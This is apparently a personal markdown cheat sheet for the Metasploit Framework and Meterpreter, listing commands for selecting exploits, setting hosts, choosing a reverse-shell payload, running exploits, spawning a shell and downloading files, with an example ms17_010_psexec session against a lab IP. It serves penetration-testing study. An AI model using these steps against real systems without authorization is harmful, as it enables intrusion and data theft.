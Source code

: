 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit
---
```


# Metasploit

<!-- Resources {{{-->
## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

___

<!-- }}} -->

<!-- Usage {{{-->
## Usage

<!-- Launch Metasploit {{{-->
### Launch Metasploit

Launch the Metasploit Framework

```sh
msfconsole
```

<!-- }}} -->

<!-- Search Exploit {{{-->
### Search Exploit

Search for exploits, modules, and scanners

```sh
search <exploit>
```

<!-- }}} -->

<!-- Select Exploit {{{-->
### Select Exploit

Select the exploits, modules, and scanners

```sh
use <exploit_id>
```

```sh
use <exploit_name>
```

<!-- }}} -->

<!-- Show Actions {{{-->
### Show Actions

```sh
show actions
```

<!-- }}} -->

<!-- Set Actions {{{-->
### Set Actions

```sh
set ACTION <action_name>
```

<!-- }}} -->

<!-- Show Options {{{-->
### Show Options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

<!-- }}} -->

<!-- Set Options {{{-->
### Set Options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (*optional*)

```sh
set payload generic/shell_reverse_tcp
```

> [!example]-
>
> ```sh
> msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
> RHOSTS => 10.10.10.40
> msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
> LHOST => tun0
> ```

<!-- }}} -->

<!-- Check Exploit {{{-->
### Check Exploit

Check if the target is vulnerable to the exploit

```sh
check
```

> [!warning]
>
> Not every exploit supports the `check` function

<!-- }}} -->

<!-- Run Exploit {{{-->
### Run Exploit

Launch the exploit/scanner with the `run` or `exploit` commands

```sh
run
```

```sh
exploit
```

<!-- }}} -->

___

<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

<!-- Options {{{-->
## Options

- cd
- ls
- pwd
- download <file>

<!-- }}} -->

___

<!-- }}} -->
